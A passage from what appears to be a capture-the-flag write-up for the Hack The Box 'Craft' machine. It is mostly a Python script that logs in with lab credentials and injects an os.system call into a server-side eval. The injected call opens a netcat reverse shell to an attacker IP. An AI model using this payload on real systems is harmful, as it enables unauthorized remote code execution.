 ![](images/token.png)

Now we have the token value we can try to exploit that `eval` we found.

```python
import requests
import json
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
TOKEN =  json_response['token']

headers = { 'X-Craft-API-Token': TOKEN, 'Content-Type': 'application/json'  }

brew_dict = {}
brew_dict['abv'] = '''__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.225 4444 >/tmp/f')# '''
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
print(json_data)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
This code will give you shell.

![](images/rev.png)
